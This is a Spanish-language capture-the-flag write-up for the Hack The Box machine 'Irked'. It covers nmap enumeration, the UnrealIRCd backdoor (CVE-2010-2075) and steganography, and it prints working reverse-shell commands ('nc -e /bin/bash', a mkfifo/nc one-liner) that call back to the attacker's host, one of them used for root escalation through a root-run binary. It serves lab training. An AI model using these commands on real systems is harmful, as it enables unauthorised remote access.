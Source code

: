 # 🏳 Irked



<figure><img src="../../../../.gitbook/assets/0__VjS9yH5FeQ22w--.webp" alt=""><figcaption></figcaption></figure>

<table><thead><tr><th width="227">Datos</th><th width="288.3333333333333"> </th><th>Notas</th></tr></thead><tbody><tr><td>Nombre de la máquina: </td><td><a href="https://app.hackthebox.com/machines/Irked">Irked</a></td><td></td></tr><tr><td>IP de la máquina:</td><td>10.10.10.117</td><td></td></tr><tr><td>Sistema simulado: </td><td>Debian</td><td></td></tr><tr><td>Servicio vulnerado: </td><td>UnrealIRCd</td><td></td></tr><tr><td>CVEs:</td><td><a href="https://nvd.nist.gov/vuln/detail/CVE-2010-2075">2010-2075</a></td><td></td></tr></tbody></table>

### 1. Enumeración y descubrimiento

Comenzamos la fase de enumeración de la máquina Irked realizando una petición mediante nmap a  la IP desplegada buscando la información necesaria para comenzar. Comenzamos:

```bash
nmap -sC -sV -sT 10.10.10.117
```

<div align="center">

<figure><img src="../../../../.gitbook/assets/1 (17).png" alt=""><figcaption></figcaption></figure>

</div>

Nos percatamos de que en el puerto 22 existe un servicio OpenSSH 6.7 al cual hecharemos un vistazo más adelante. Ahora revisaremos el http de la máquina, en el cual nos aparece el mensaje "IRC is almost working".

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Seguiremos la pista del IRC y buscaremos si existe un servicio IRC en la máquina el cual no esté en un puerto común. Para ello pediremos a NMAP que busque en todos los puertos de la máquina, para ello usaremos el tag -p-:

```bash
nmap -sC -sV -sT 10.10.10.117 -p-
```

<figure><img src="../../../../.gitbook/assets/3 (14).png" alt=""><figcaption></figcaption></figure>

En este punto encontramos varios servicios UnrealIRCd de IRC e incluso un email.&#x20;

### 2. Análisis de vulnerabilidades

En este punto vamos a comenzar a buscar información sobre el servicio UnrealIRCd y las vulnerabilidades conocidas en el servicio.&#x20;

<figure><img src="../../../../.gitbook/assets/4 (11).png" alt=""><figcaption><p>Uso de Searchexploit en busqueda de exploits conocidos en UnrealIRCd</p></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/5 (14).png" alt=""><figcaption><p>Búsqueda de exploits en ExploitDatabase</p></figcaption></figure>

Son algunos de los métodos que tenemos para acceder a esta máquina, aunque nosotros utilizaremos un script de nmap para ganar acceso a la misma. El script que hemos encontrado se encuentra documentad en la [página oficial de Nmap](https://nmap.org/nsedoc/scripts/irc-unrealircd-backdoor.html) y explica como debemos usarlo así como nos facilita el [enlace de descarga](https://svn.nmap.org/nmap/scripts/irc-unrealircd-backdoor.nse) del mismo. Para desplegarlo recuerda guardar el script en la ruta `/usr/share/nmap/scripts` y que tenga la extensión `.nse` .&#x20;

### 3. Explotación

Llegado este punto ejecutaremos el script apuntando a la IP los puertos con el servicio IRC depslegado para averiguar cual de ellos es vulnerable.&#x20;

```bash
nmap -p 6697,8067,65534 --script irc-unrealircd-backdoor 10.10.10.117
```

<figure><img src="../../../../.gitbook/assets/6 (9).png" alt=""><figcaption></figcaption></figure>

En este punto ejecutaremos el backdoor y lo redirigiremos hacia el netcat que tenemos levantado en el puerto 4444 en nuestro caso.&#x20;

```bash
nmap -p 8067 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash [IP] [PORT]"  10.10.10.117
```

Esperaremos unos segundos tras ejecutar el comando hasta que nuestro Netcat reciba la conexión correctamente.&#x20;

<figure><img src="../../../../.gitbook/assets/7 (10).png" alt=""><figcaption></figcaption></figure>

En este punto ya tendremos una shell abierta en nuestra máquina con el usuario ircd de la máquina Irked. Realizaremos un tratamiento de la TTY con Python mediante:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

El usuario carece de permisos para poder visualizar la flag de user por lo que tendremos que intentar conseguir otro usuario u método de acceso a la flag y posteriormente acceso a root para finalizar la máquina.&#x20;

<figure><img src="../../../../.gitbook/assets/8 (7).png" alt=""><figcaption></figcaption></figure>

### 4. Escalada de privilegios usuario

En este punto revisamos los diferentes directorios hasta encontrarnos un fichero backup oculto en la carpeta documents el cual parece tener una contraseña.&#x20;

<figure><img src="../../../../.gitbook/assets/9 (8).png" alt=""><figcaption></figcaption></figure>

El problema es ¿Donde usamos esta contraseña? ya que cuando intentamos acceder a djmardov con ella no nos lo permite... Tras investigar un rato caemos.... La imagen que vimos en el HTTP con un emoji puede que contenga algo de información... Es por ello que vamos a realizar una análisis para ver si hay algo oculto.&#x20;

```
steghide info irked.jpg
```

<figure><img src="../../../../.gitbook/assets/10 (7).png" alt=""><figcaption></figcaption></figure>

Al introducir la contraseña nos informa de que existe un archivo llamado pass.txt. Es por ello que ejecutaremos `steghide extract -sf irked.jpg` y extraeremos el archivo pass en el cual se incluirá la contraseña con la que podremos acceder a djmardov y visualizar la flag del usuario.

<figure><img src="../../../../.gitbook/assets/11 (6).png" alt=""><figcaption></figcaption></figure>

### 5. Escalada de privilegios Root

Llegado este punto nos toca buscar una manera de hacernos con el usuario Root y ganar acceso total a la máquina. Encontramos un binario llamado viewuser el cual puede servirnos para generar la escalada.&#x20;

<figure><img src="../../../../.gitbook/assets/12 (3).png" alt=""><figcaption></figcaption></figure>

Al ejecutar la aplicación viewuser nos aparecerá el siguiente mensaje sobre la aplicaciçon la cual está buscando el fichero en /tmp/listusers.

<figure><img src="../../../../.gitbook/assets/13 (3).png" alt=""><figcaption></figcaption></figure>

Nos aprovecharemos de que este servicio está corriendo constantemente mediante root para volcar en el archivo la generación de una bash.

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [IP] [PORT] >/tmp/f" > /tmp/listusers
```

Después deberemos de aprovecharnos del usuario djmardov para dar algunos permisos al fichero generado.

```bash
chmod a+x /tmp/listusers
```

Una vez realizado esto deberemos ejecutar viewuser, teniendo un netcat abierto a la escucha en el puerto que hayamos configurado, y con ello tendremos acceso como root a la máquina y podremos ver la flag.

<figure><img src="../../../../.gitbook/assets/14 (2).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Si te he ayudado sígueme y apóyame en [Hack The Box ](https://app.hackthebox.com/profile/819073)
{% endhint %}

